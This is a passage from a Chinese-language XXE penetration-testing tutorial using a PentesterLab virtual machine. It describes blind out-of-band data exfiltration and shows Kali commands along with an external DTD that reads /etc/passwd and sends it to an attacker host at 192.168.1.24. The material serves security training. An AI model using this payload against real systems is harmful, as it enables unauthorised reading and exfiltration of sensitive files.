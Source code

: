 >`Connection refused` 栏有数值，证明端口关闭

## 6 无回显的情况下实现数据外带

![无回显的情况下实现数据外带](./../../../../images/XXE/%E6%97%A0%E5%9B%9E%E6%98%BE%E7%9A%84%E6%83%85%E5%86%B5%E4%B8%8B%E5%AE%9E%E7%8E%B0%E6%95%B0%E6%8D%AE%E5%A4%96%E5%B8%A6.png)

**过程**

1.黑客向目标发送一个 XML 请求 payload，使目标向黑客请求 DTD

2.目标向黑客发送一个 DTD 请求，向黑客请求 DTD

3.黑客向目标发送一个 DTD 到目标

4.目标 XML 解析器解析黑客发来的 DTD

5.解析后将数据发送给黑客

**准备**

配置 `PentesterLab-xxe` 虚拟机

切换至站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /var/www/html/
```

在 Kali 配置一个外部 DTD，用于使目标读取数据，并发送给黑客

```
┌──(root㉿Kali-24)-[~]
└─# vim xxe.dtd
```

```dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.1.24/xxe.php?pass=%p1;'>">
%p2;
```
